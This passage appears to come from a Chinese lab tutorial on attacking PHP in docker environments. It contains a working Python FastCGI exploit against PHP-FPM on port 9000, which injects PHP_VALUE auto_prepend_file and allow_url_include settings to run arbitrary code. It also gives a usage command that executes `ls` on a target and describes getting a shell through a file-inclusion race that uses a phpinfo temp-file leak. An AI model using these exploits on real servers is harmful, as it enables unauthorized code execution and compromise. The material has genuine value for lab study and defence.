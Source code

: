 ```python
e True:            buf = self.sock.recv(512)            if not len(buf):                break            data += buf         data = BytesIO(data)        while True:            response = self.__decodeFastCGIRecord(data)            if not response:                break            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR                if requestId == int(response['requestId']):                    self.requests[requestId]['response'] += response['content']            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:                self.requests[requestId]        return self.requests[requestId]['response']     def __repr__(self):        return "fastcgi connect host:{} port:{}".format(self.host, self.port)  if __name__ == '__main__':    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')    parser.add_argument('host', help='Target host, such as 127.0.0.1')    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)     args = parser.parse_args()     client = FastCGIClient(args.host, args.port, 3, 0)    params = dict()    documentRoot = "/"    uri = args.file    content = args.code    params = {        'GATEWAY_INTERFACE': 'FastCGI/1.0',        'REQUEST_METHOD': 'POST',        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),        'SCRIPT_NAME': uri,        'QUERY_STRING': '',        'REQUEST_URI': uri,        'DOCUMENT_ROOT': documentRoot,        'SERVER_SOFTWARE': 'php/fcgiclient',        'REMOTE_ADDR': '127.0.0.1',        'REMOTE_PORT': '9985',        'SERVER_ADDR': '127.0.0.1',        'SERVER_PORT': '80',        'SERVER_NAME': "localhost",        'SERVER_PROTOCOL': 'HTTP/1.1',        'CONTENT_TYPE': 'application/text',        'CONTENT_LENGTH': "%d" % len(content),        'PHP_VALUE': 'auto_prepend_file = php://input',        'PHP_ADMIN_VALUE': 'allow_url_include = On'    }    response = client.request(params, content)    print(force_text(response))
```

使用exp攻击9000端口即可执行命令

```php
python fpm.py 192.168.1.10 -p 9000 /usr/local/lib/php/PEAR.php -c "<?php echo `ls`;?>"
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-399028e4a3b8aeb9c5200f068b72085a26f4b782.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-399028e4a3b8aeb9c5200f068b72085a26f4b782.png)

inclusion
=========

inclusion表示文件包含漏洞，该漏洞与PHP版本无关。PHP文件包含漏洞中，如果找不到可以包含的文件，我们可以通过包含临时文件的方法来getshell。因为临时文件名是随机的，如果目标网站上存在phpinfo，则可以通过phpinfo来获取临时文件名，进而进行包含。

进入inclusion的docker环境

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fbd887eb096ebd94d4f7e677d2334cc1fb058616.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fbd887eb096ebd94d4f7e677d2334cc1fb058616.png)

进入inclusion目录，这里直接使用准备好的exp即可

```php
python2 exp.py 192.168.1.10 8080
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a845e90ca16ca0e6ce23c94253a7e16dc4a6e1ac.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a845e90ca16ca0e6ce23c94253a7e16dc4a6e1ac.png)
